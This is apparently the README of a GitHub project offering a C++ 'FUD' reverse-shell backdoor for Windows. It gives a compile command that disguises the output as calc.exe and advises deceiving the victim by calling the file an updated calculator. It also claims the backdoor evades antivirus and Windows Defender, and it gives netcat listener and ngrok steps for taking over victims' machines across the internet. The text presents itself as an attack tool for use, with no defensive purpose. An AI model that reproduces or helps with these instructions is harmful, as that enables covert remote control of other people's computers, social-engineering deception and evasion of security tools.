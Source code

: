# Reverseshellcpp
A FUD Backdoor Reverse Shell coded in CPP for any Windows distribution, that will fire a decoy app in the foreground while connecting back to the attacker machine as a silent background process.

Change the IP to the attacker machine's IP and the port number to your desired port number and compile using:
i686-w64-mingw32-g++ reverse.cpp -o calc.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc

Pass it to the attacker , stating that this is a updated version of calc.exe.
You can scan the application with your AV solutions , if you want , and I am pretty sure thant 98% of the AV solutions will NOT detect it.
It has passed the check of Windows Defender with an updated definition file.

PLEASE DO NOT UPLOAD TO VIRUSTOTAL !!!

Start a netcat listener on port 8080 using nc -lvp 8080

Once the victim executes the app, the decoy process (calc.exe) will fire up in the foregroud on the victim's end , while a reverse shell will fire up in the background, giving you a DOS prompt on the attacker's end (nc listener).

Type in POWERSHELL on the DOS prompt to leverage the post exploitation module.

PS: Even if the victim decides to exit the calc.exe the reverse shell session will be on , as they are running on 2 different processes.

Cheers

#Captain_Nemo

PS: For WAN exploits , fore up ngrok with the following parameters (incase port forwarding is dissalowed by your ISP)
./ngrok tcp 8080

Ping 0.tcp.ngrok.io atleast 6-7 times to get a stable mirror IP and port.
When u see that the IP and the port numbers are same after 5-6 last pings , use that IP and port in the code.> compile the code > pass it to the victim machine > make sure ngrok is NOT interrupted on the attacker machine as a new ngrok session will grab a new IP and port > start a nc -lvp 8080 on the attacker system. > execute the payload on the victim machine > get session over WAN/Internet on the attacker machine .

https://youtu.be/I-BsI-Yeh4w

